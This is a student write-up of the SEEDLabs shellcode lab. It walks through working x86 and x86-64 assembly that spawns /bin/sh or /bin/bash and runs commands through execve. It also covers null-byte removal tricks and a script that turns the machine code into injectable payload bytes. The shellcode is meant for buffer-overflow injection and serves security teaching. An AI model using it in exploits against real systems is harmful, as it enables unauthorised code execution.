



# SEEDLabs -- Shellcode Development Lab


* [Overview](#overview)
* [Task 1. Writing Shellcode](#task-1-writing-shellcode)
  * [1a: An overview of the process](#1a-an-overview-of-the-process)
  * [1b: Eliminating zeros from the shellcode](#1b-eliminating-zeros-from-the-shellcode)
  * [1c: Providing arguments for system calls.](#1c-providing-arguments-for-system-calls)
  * [1d. Providing environment variables for `execve()`](#1d-providing-environment-variables-for-execve)
  * [Note: Calling convention](#note-calling-convention)
* [Task 2. Using Code segment](#task-2-using-code-segment)
* [Task 3: Writing 64-bit shellcode](#task-3-writing-64-bit-shellcode)

## Overview
Shellcode is widely used in many attacks that involve code injection. Although we can easily find existing shellcode on the Internet, there are situations where we require a shellcode which has to satisfy certain conditions.

There are several challenges in writing shellcode, one is to ensure that there are no zeroes in the binary, and the other is to find the addresses of data used in the command. 
* The first challenge is not very difficult to overcome, and there are several techniques that can be employed. 
* Solutions to the second challenge led to two typical approaches to writing shellcode. 
  * In one approach, data is pushed into the stack during the execution, so that their addresses can be obtained from the stack pointer. 
  * In the second approach, the address of the data is stored in the code region, right after a `call` instruction. When the `call` instruction is executed, the address of the data is treated as the return address, and is pushed into the stack. 

In this lab, we aim to understand the techniques employed in writing shellcode by writing our own shellcode. The following topics are covered here:

1. Shellcode
2. Assembly code
3. Disassembly

All code found below are available [here](./src).

## Task 1. Writing Shellcode

Here, we first begin with an example shellcode. Subsequently, the shellcode will be modified to accomplish various tasks. 

Shellcode is typically written using assembly languages, which depend on the computer architecture. In this lab, we will be using the 32-bit Intel architecture (for `x86` processors). In the final task, we will look at the 64-bit Intel architecture.

### 1a: An overview of the process

A basic example of a shellcode `mysh.s` is provided for the lab:

```assembly
; mysh.s

section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      push "//sh"
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

We can compile this assembly code using `nasm` -- an assembler and disassembler for the Intel `x86` and `x64` architectures. The option `-f elf32` indicates that we want to assemble the code to 32-bit ELF *object code*. The full command is:

```sh
~$ nasm -f elf32 mysh.s -o mysh.o
```

> **Object code** is a sequence of statements or instructions in a computer language (typically binary machine code). It is the machine code for one particule library or module that will make up the completed product. 

This produces the *object code* `mysh.o`. To generate the executable binary, we use the *linker* `ld`. The option `-m elf_i386` indicates that we want to generate the 32-bit ELF binary. The full command is: 

```sh
~$ ld -m elf_i386 mysh.o -o mysh
```

> The **linker** takes one or more object files (generated by a compiler or an assembler; may be from a library) and combines them into a single executable file.

This gives us the final executable `mysh`. Running the executable gives us a shell. We can verify that a new shell process has spawned by checking the current shell's process ID using `echo $$`. 


In the image, `7822` is the process ID of original shell, and `7853` is the process ID of the shell spawned by `mysh`.

For the attack, we only need the machine code of the shell code, and not a standalone executable file (which contains data other than the actual machine code). Technically, only the machine code is called *shellcode*. Thus, we need to extract the machine code from the executable file or the object file. There are various ways to do this.

1. We can use `objdump` to disassemble the executable or object file.
   
   

   In the image, the hexadecimal numbers in the red box form the machine code. 

   > Note that there are two common syntax modes for assembly code: the AT&T syntax, and the Intel syntax. By default, `objdump` uses the AT&T syntax. Here, we use the option `-Mintel` to specify that we want the Intel syntax

2. Alternatively, we can use `xxd` to print out the contents of the object file, and we should be able to find the machine code.

     

     In the image, the hexadecimal numbers in the red box form the machine code.

Finally, in actual attacks, the shellcode need to be included in the attacking code (payload), such as a Python or C program. To convert the machine code into an appropriate array, the Python script `convert.py` is provided: 

```python
# convert.py

#!/usr/bin/env python3

# Run "xxd -p -c 20 rev_sh.o",
# copy and paste the machine code to the following:
ori_sh ="""
copy and paste machine code here
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15: 
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
```

Replacing the variable `ori_sh` in the Python script with the machine code for `mysh.o`, we get the following output:


### 1b: Eliminating zeros from the shellcode

Shellcode is widely used in buffer-overflow attacks. In many cases, the vulnerabilities are caused by string copy, such as the `strcpy()` function. For these string copy functions, the zero byte `\x00` is considered as the end of the string. Therefore, if we have a zero in the middle of the shellcode, string copy will only copy the shellcode up to the zero, to the target buffer, and the attack will fail. 

Although not all vulnerabilities have issues with zero bytes, it is a requirement for shellcode not to have any zeros in the machine code. Otherwise, the application of the shellcode will be limited. 

There are various techniques that can get rid of zeros in the shell code:

* If we want to assign zero to a register, say `eax`, we would naively use the instruction `mov eax, 0`. However, this results in a zero in the machine code. 
  
  To solve this problem, the typical method is to use the **equivalent instruction** `xor eax, eax`. To see how this works, let us look at the truth table of XOR: 

  |  A  |  B  | A XOR B |
  |:---:|:---:|:-------:|
  |  0  |  0  |    0    |
  |  0  |  1  |    1    |
  |  1  |  0  |    1    |
  |  1  |  1  |    0    |

  From this, we can see that whenever the two operands match, the outcome of the XOR operation is `0`. Thus, the result of the instruction `xor eax, eax` is `0x00000000` which is stored back into `eax`. 

  We can explicitly see the difference in the machine code using the following example `xor.s`:

  ```assembly
  ; xor.s

  section .text
  global _start
    _start:
      ; Comparing between mov and xor for setting register to zero
      mov  eax, 0    ; using mov to set to zero
      xor  eax, eax  ; using xor to set to zero
  ```
  Compiling it into object code and using `objdump`, we get the following result:

  

  Looking at the machine code in red, we see that the `mov` instruction results in four zeros in the machine code, while the `xor` instruction has no zeros. Both instructions result in the register `eax` having the value `0x00000000`.

* If we want to store, say an 8-bit number like `0x99` into a 32-bit register like `eax`, We cannot simply use `mov eax, 0x99`. The compiler will pad the 8-bit number with zeros to become a 32-bit number -- so the operand becomes `0x00000099` which has three zeros. 
  
  To overcome this, we can first set `eax` to zero (using the `xor` trick), and then assign the 8-bit number `0x99` to the `al` register, which refers to the least significant 8-bits of the `eax` register.

  > For the four of the general purpose 32-bit registers in the `x86` architecture -- `eax`, `ebx`, `ecx` and `edx`, we may refer to their subsections. Taking `eax` as an example, we may refer to the lower 16-bits of the register by `ax`. Within `ax`, we can refer to the lower 8-bits by `al` and the upper 8-bits by `ah`.


  > 
  *Taken from [nayuki.io](https://www.nayuki.io/page/a-fundamental-introduction-to-x86-assembly-programming)*

  To explicitly see the difference, we look at the machine code for the following code `al.s`

  ```assembly
  ; al.s

  section .text
  global _start
    _start:
      ; Comparing between moving an 8-bit value to eax and al
      mov  eax, 0x99	; moving 0x99 into eax
      mov   al, 0x99	; moving 0x99 into al
  ```
  The object code after compilation is

  

  We can see that indeed, the zeros have been removed from the shell code.

* Another method is to make use of bit shifts. Suppose we want to assign the string `"xyz"` into the register `ebx`. Like before, the string is only 24-bits and will be padded with zeros to fit into the 32-bit register. In  

  We can eliminate the zeros here using bit shifts. We instead assign a string like `"xyz#"` to the register `ebx`, i.e. we pad the string manually with some random character. Most Intel CPUs are little endian, where the least significant byte is stored at the lower address, the hexadecimal value `0x237A7978` is stored into `ebx`. 
  
  Then, we shift the register to the **left** by 8-bits, so the most significant 8-bits -- which represent `'#'` -- are pushed out and discarded. We then shift the register **right** and the most significant byte will filled with a zero. The state of the register after each instruction is illustrated below. 

  ```assembly
  mov  ebx, "xyz#" ;    ebx = 0x237A7978
  shl  ebx, 8      ;    ebx = 0x7A797800
  shr  ebx, 8      ;    ebx = 0x007A7978
  ```

  To see this explicitly, we look at the machine code for the example `bitshift.s`.

  ```assembly
  section .text
  global _start
    _start:
      ; Using bitshift to insert values less than 32-bits
      mov  ebx, "xyz" ;  inserting a 24-bit value

      mov  ebx, "xyz#";  inserting the self-padded 24-bit value
      shl  ebx, 8     ;  shift left 8-bits
      shr  ebx, 8     ;  shift right 8-bits
  ```

  `objdump` gives the following output

  

  We see that the shellcode for the bitshift trick has no zeros.

Going back to the given `mysh.s`, there are four places which use zero without introducing zeros. They are:

```assembly
; mysh.s

section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax     ; Clearing eax for (1)
      push eax          ; (1): want to push /0 onto stack to denote end of string
      push "//sh"       ; (2): using redundant '/' to avoid zero padding. 
      push "/bin"       ;
      mov  ebx, esp     ; 

      ; Construct the argument array argv[]
      push eax          ; (1): want to push /0 onto stack for arg[1] = 0.
      push ebx          ; 
      mov  ecx, esp     ; 
   
      ; For environment variable 
      xor  edx, edx     ; (3): Clearing edx.

      ; Invoke execve()
      xor  eax, eax     ; 
      mov   al, 0x0b    ; (4): Settting eax to 0x0b and avoiding zero padding.
      int 0x80
```

If we instead want to use the shellcode to execute `/bin/bash`, we will need to make some modifications to `mysh.s`. The edited shell code `mysh_bash.s` is shown below. 

```assembly
; mysh_bash.s

section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax 
      mov  al, "h"      ; Store the single character 'h' into eax
      push eax
      push "/bas"
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      xor  eax, eax     ; Set eax to 0
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

Essentially, the problem arises due to the fact that `/bin/bash` is 9 bytes long. The first 8 bytes are easy to push onto the stack. To push the last byte onto the stack, we first store the character `'h'` into the register `eax`. In order to eliminate the zeros, we load it directly into the lowest 8-bit segment `al`. We then push `eax` onto the stack. We subsequently clear `eax` using the XOR method. 

We can use the commands `echo $$` and `echo $SHELL`  to check that `/bin/bash` is indeed running.


We can use `objdump` to verify that the shellcode has no zeros.


### 1c: Providing arguments for system calls.

Inside `mysh.s`, the following segment constructs the `argv[]` array for the `execve()` system call. 

```assembly
; mysh.s: lines 11-14

; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
```
Since the command to be executed is `/bin/sh`, without any command-line arguments, our `argv` array only contains **two** elements: first, a pointer to the command string, and second, a zero byte.

Now, we wish to use `execve()` to execute the following command (which uses `/bin/bash` to execute `ls -la`). 

```shell
~$ /bin/sh -c "ls -la"
```

Hence, in this new command, the `argv` array should have the following four elements, which all need to be constructed on the stack.

```c
argv[3] = 0
argv[2] = "ls -la"
argv[1] = "-c"
argv[0] = "/bin/sh"
```

> Notice that we push the string "`ls -la`" onto the stack instead of "`"ls -la"`". The quotes are not needed here as the null terminator will denote the end of the string on the stack.

To achieve this, we modify `mysh.s` into the `mysh_lsla.s` below:

```assembly
; mysh_lsla.s

section .text
  global _start
    _start:
      ; Store "/bin/sh" on stack
      xor  eax, eax
      push eax          ; Use 0 to terminate the string
      push "//sh"
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Store "-c" on stack
      mov   ax, "-c"    ; Store 16-bit "-c" into lower 16-bits of eax.
      push eax
      mov  ecx, esp     ; Store address of "-c"

      ; Store "ls -la" on stack
      xor  eax, eax     ; Clear eax
      mov   ax, "la"    ; Store 16-bit "la" into lower 16-bits of eax
      push eax
      push "ls -"
      mov  edx, esp     ; Store address of "ls -la"

      ; Construct the argument array argv[]
      xor  eax, eax     ; Clear eax
      push eax          ; argv[3] = 0
      push edx          ; argv[2] points "ls -la"
      push ecx          ; argv[1] points "-c"
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]

      ; For environment variable
      xor  edx, edx     ; No env variables

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

The shellcode works as intended:


We can verify that the shellcode has no zeros using `objdump`.


### 1d. Providing environment variables for `execve()`

The third parameter for the `execve()` system call is a pointer to the environment variable array which allows us to pass environment variables to the program. In the initial example `mysh.s`, we pass a null pointer to `execve()`, so no environment variable is passed to the program

```assembly
; mysh.s: lines 16-17

; For environment variable 
xor  edx, edx     ; No env variables 
```

We can change the command `/bin/sh` in `mysh.s` to `/usr/bin/env`, we can print out the current environment variables. In this case, when we run the shellcode, there will be no output since the process does not have any environment variables.

In this task, we want a shellcode `myenv.s` that when executed, executes the command `/usr/bin/env` and prints out the following environment variables: 

```
aaa=1234
bbb=5678
cccc=1234
```

To do so, we need to construct the environment variable array on the stack, and store the address of this array to the `edx` register before invoking `execve()`. The shellcode `myenv.s` is shown below. 

```assembly
; myenv.s

section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax
      push eax          ; Use 0 to terminate the string
      push "/env"
      push "/bin"
      push "/usr"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/usr/bin/env"
      mov  ecx, esp     ; Get the address of argv[]

      ; Construct env strings on stack
      push eax          ; 0 to terminate string
      push "1234"       ;
      push "aaa="       ; "aaa=1234"
      push eax          ; 0 to terminate string
      push "5678"       ;
      push "bbb="       ; "bbb=5678"
      mov  al, "4"      ;
      push eax          ;
      push "=123"       ;
      push "cccc"       ; "cccc=1234"
      mov  eax, esp     ;

      ; Pushing env variable array onto stack
      xor  edx, edx     ;
      push edx		    ; 0 to terminate array
      push eax	      	;
      add  eax, 0xc     ; 0xc = 12
      push eax          ;
      add  eax, 0xc     ;
      push eax          ;
      mov  edx, esp     ;

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

 > Attempting a method similar to the previous task fails as there are not enough free registers for use. So we take an alternative approach. Here, we first construct the strings for the environment variables. Only after all the strings are constructed, then we move the stack pointer `esp` into `eax`. Since we know the lengths of all the strings, the address of each string is simply some fixed offset from  `eax`.

 > 

The shellcode works as required.


We also verify with `objdump` that the shellcode contains no zeros.


### Note: Calling convention

A *calling convention* is an implementation-level (assembly-level) scheme for how functions/sub-routines should receive parameters/arguments from their caller, and how they should return their result.

In the case of shellcode, we call `execve()` at the end of the shellcode. In fact, `execve()` is called by what is known as a *system call (syscall)*.

From the [syscall man page](https://man7.org/linux/man-pages/man2/syscall.2.html), under "Architecture calling conventions", the first table shows us the assembly instruction to invoke a syscall.


From this, we see that the instruction `int 0x80` indeed triggers a syscall for the `i386` architecture. In addition, the syscall calls a function labelled by the number currently stored in `eax`.

Looking up a `x86` Linux syscall table, we see that `execve()` has a syscall number of 11, which is `0xb` in hexadecimal. This corresponds to what we have seen so far: where the value `0xb` is loaded into `eax` right before the syscall is triggered.

The second table in the [man page](https://man7.org/linux/man-pages/man2/syscall.2.html), tells us how to pass arguments into the function called by syscall.


In the `i386` architecture, we see that the arguments are taken from the registers `ebx`, `ecx`, `edx`, `esi`, `edi` and `ebp`, **in order**.

In the case of `execve()`, only three arguments are required: 

```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```
and `pathname` is equivalent to `argv[0]`. Thus we should have 

```
ebx = pathname = argv[0]
ecx = pointer to argv[]
edx = pointer to envp[] 
```

The following diagram summarises the calling convention for a syscall:


## Task 2. Using Code segment

In task 1, the shellcode dynamically constructs all the necessary data structures on the stack, so their addresses can be obtained from the stack pointer `esp`. 

Another approach to getting the addresses of the all necessary data structures, is to store the data in the code region, and obtain the addresses via the **function call mechanism**. An example is given in `mysh2.s`.

```assembly
; mysh2.s

section .text
  global _start
    _start:
	    BITS 32
	    jmp short two
    one:
      pop ebx
      xor eax, eax
      mov [ebx+7], al
      mov [ebx+8], ebx 
      mov [ebx+12], eax
      lea ecx, [ebx+8] 
      xor edx, edx
      mov al,  0x0b
      int 0x80
    two:
      call one
      db '/bin/sh*AAAABBBB' 
```

The code above first jumps to the instruction at location `two`, using the `jmp` instruction. Then the code jumps to location `one`, but this time using the `call` instruction -- before it jumps to the defined location, it records the address of the next instruction as the return address, so that when the function returns, it can return to the instruction immediately after the `call` instruction. 

In this example, the "instruction" right after `call one` is not actually an instruction; but actually stores a string within the executeable itself. However, this does not matter, and the `call` instruction pushes the address of the string onto the stack, as the return address of the function frame.

 

From the `objdump` of `mysh2`, we can see that the string is placed directly into the shellcode. In the image above, the shellcode highlighted in red translates directly to the string "`/bin/sh*AAAABBBB`". Note that the disassembler tries to intepret the shellcode, and we obtain some nonsensical instructions.

When we get into the function, i.e. after jumping to location `one`, the return address -- which at this point is the address of the string -- in at the top of the stack. Thus, the instruction `pop ebx` takes the return address and stores it into `ebx`. This is how we obtain the address of the string. 

Furthermore, the string is just a placeholder string. The program needs to construct the required data structure inside this placeholder. Since the address of the string is known, the address of all the data structures in the string is easily deduced.

To obtain an executable, we need to use the `--omagic` option when running the linker (`ld`), so that the code segment is writable. By default, the code segment is not writable. When this program runs, it needs to modify data stored in the code region; if the code region is not writable, then then program will crash. However, this is not a problem for actual attacks as the shellcode is typically injected into a writable data segment, like the stack or the heap. In summary, to generate the executable, we run:

```bash
$ nasm -f elf32 -o mysh2.o mysh2.s
$ ld --omagic -m elf_i386 -o mysh2 mysh2.o
```
We take a closer look at the code segment `one` to see how the placeholder string is modified.

```assembly
; mysh2.s: lines 6-15

one:
  pop ebx
  xor eax, eax
  mov [ebx+7], al
  mov [ebx+8], ebx 
  mov [ebx+12], eax
  lea ecx, [ebx+8] 
  xor edx, edx
  mov al,  0x0b
  int 0x80
```
Going line by line: 

1. `pop ebx` stores the address of the placeholder string into `ebx`.
2. `xor eax, eax` clears the `eax` register.
3. `mov [ebx+7], al` stores a `\x00` at the 7th position of the placeholder string, replacing `*` in the original string.
4. `mov [ebx+8], ebx` stores the address of the placeholder string at the 8th position of the placeholder string, replacing `AAAA` in the original string.
5. `mov [ebx+12], eax` stores `\x00000000` at the 12th position of the original string, replacing `BBBB` in the original string.

    The diagram below summarises what has been done up to this point.

    

6. `lea ecx, [ebx + 8]` stores the address of the contents at the address `ebx+8`. Essentially, this instruction is setting `ecx = ebx + 8`.
7. `xor edx, edx` clears the `edx` register.
8. The last two instructions form the syscall for `execve()`. 
    
    At this point, all the ingredients are in place for `execve()`.
    * `ebx` contains the command `/bin/sh`, which gets executed by `execve()`,
    * `ecx` contains an address to an array: `['/bin/sh', \x00]` which is `argv[]`,
    * `edx` contains the environment variables, which is empty.

In this task, we want to use the above technique to run the command `/usr/bin/env` to print out the environment variables:

```
aa=11
bb=22
```

Before writing any code, we roughly sketch how the string should eventually look like. The rough plan is shown below. 


Thus, the string will be 48 bytes long, and we set the place holder to be "`/usr/bin/env****argv****aa=11*bb=22*env1env2****`". The overall code `myenv2.s` is:

```assembly
section .text
  global _start
    _start:
      BITS 32
      jmp short two
    one:
      pop ebx
      xor eax, eax
      mov [ebx+0xc] , eax
      mov [ebx+0x10], ebx
      lea ecx, [ebx+0x10]
      mov [ebx+0x14], eax
      mov [ebx+0x1d], al
      mov [ebx+0x23], al
      lea eax, [ebx+0x18]
      mov [ebx+0x24], eax
      lea eax, [ebx+0x1e]
      mov [ebx+0x28], eax
      lea edx, [ebx+0x24]
      xor eax, eax
      mov [ebx+0x2c], eax
      mov al,  0x0b
      int 0x80
    two:
      call one
      db '/usr/bin/env****argv****aa=11*bb=22*env1env2****'
```
The shellcode works as intended, and `objdump` verifies that there are no zeros.


## Task 3: Writing 64-bit shellcode

Writing shellcode in 64-bit is quite similar to writing 32-bit shellcode. The main difference are the registers available and the [calling convention](#note-calling-convention).

In 64-bit architecture, a syscall is triggered via the `syscall` instruction, with the syscall number stored in `rax`.


The first three arguments for the command are taken from `rdi`, `rsi` and `rdx` respectively.



An example 64-bit shellcode is given in `mysh_64.s`.

```assembly
; mysh_64.s

section .text
  global _start
    _start:
      ; The following code calls execve("/bin/sh", ...)
      xor  rdx, rdx        ; 3rd argument
      push rdx
      mov  rax,'/bin//sh'
      push rax
      mov  rdi, rsp        ; 1st argument
      push rdx 
      push rdi
      mov  rsi, rsp        ; 2nd argument
      xor  rax, rax
      mov   al, 0x3b       ; execve()
      syscall
```

To compile the code into an executable, we use the commands

```bash
$ nasm -f elf64 -o mysh_64.o mysh_64.s
$ ld -o mysh_64 mysh_64.o
```

In this task, we want to repeat [Task 1b](#1b-eliminating-zeros-from-the-shellcode) but in 64-bit shellcode. The approach is similar, where we simply reference the lowest 8 bits of `rax` via `al`.

```assembly
; mysh_bash_64.s

section .text
  global _start
    _start:
      ; The following code calls execve("/bin/bash", ...)
      xor  rdx, rdx       ; 3rd argument
      push rdx
      mov  al,'h'
      push rax
      mov  rax,'/bin/bas'
      push rax
      mov  rdi, rsp        ; 1st argument
      push rdx 
      push rdi
      mov  rsi, rsp        ; 2nd argument
      xor  rax, rax
      mov  al, 0x3b        ; execve()
      syscall
```
The shellcode works as intended, and `objdump` verifies that there are no zeros.


